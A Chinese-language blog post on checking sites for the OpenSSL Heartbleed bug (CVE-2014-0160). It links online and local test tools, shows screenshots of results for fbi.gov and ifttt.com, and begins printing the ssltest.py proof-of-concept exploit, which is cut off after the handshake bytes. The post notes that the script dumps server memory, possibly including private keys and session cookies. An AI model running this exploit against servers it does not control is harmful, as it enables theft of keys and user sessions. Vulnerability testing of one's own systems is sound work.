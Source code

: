* Heartbleed test [http://filippo.io/Heartbleed/](http://filippo.io/Heartbleed/)

直接輸入 Domain 即可查詢，例如「fbi.gov」。

[![OpenSSL CVE-2014-0160 Heartbleed 檢測: fbi.gov](https://lh5.googleusercontent.com/-eZWKW24FMRM/U0QjWVEvSlI/AAAAAAAAAQc/tG8bOO00NCg/w897-h678-no/2014-04-08-openssl-heartbleed-CVE-2014-0160-01-fbi.gov.png "OpenSSL CVE-2014-0160 Heartbleed 檢測: fbi.gov")](https://lh5.googleusercontent.com/-eZWKW24FMRM/U0QjWVEvSlI/AAAAAAAAAQc/tG8bOO00NCg/s2560/2014-04-08-openssl-heartbleed-CVE-2014-0160-01-fbi.gov.png)

* 自我測試工具 [http://s3.jspenguin.org/ssltest.py](http://s3.jspenguin.org/ssltest.py) （或 [http://pastebin.com/WmxzjkXJ](http://pastebin.com/WmxzjkXJ)）

使用方法直接執行「python ssltest.py ifttt.com」，或是用「-p」指定特定 SSL 連接埠。畫面上會顯示出記憶體資料，可能內含機敏資料例如 private key、session cookie 等。

[![OpenSSL CVE-2014-0160 Heartbleed 檢測: ifttt.com](https://lh4.googleusercontent.com/-jg8rcJJH8XQ/U0QjWVrjuBI/AAAAAAAAAQY/zMe-rUVImvI/w509-h677-no/2014-04-08-openssl-heartbleed-CVE-2014-0160-02-ifttt.png "OpenSSL CVE-2014-0160 Heartbleed 檢測: ifttt.com")](https://lh4.googleusercontent.com/-jg8rcJJH8XQ/U0QjWVrjuBI/AAAAAAAAAQY/zMe-rUVImvI/s2560/2014-04-08-openssl-heartbleed-CVE-2014-0160-02-ifttt.png)

原始碼如下：

{% highlight python %}
#!/usr/bin/python

# Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)
# The author disclaims copyright to this source code.

import sys
import struct
import socket
import time
import select
import re
from optparse import OptionParser

options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')

def h2bin(x):
    return x.replace(' ', '').replace('\n', '').decode('hex')

hello = h2bin('''
16 03 02 00  dc 01 00 00 d8 03 02 53
43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
00 0f 00 01 01                                  
''')

hb = h2bin(''' 
18 03 02 00 03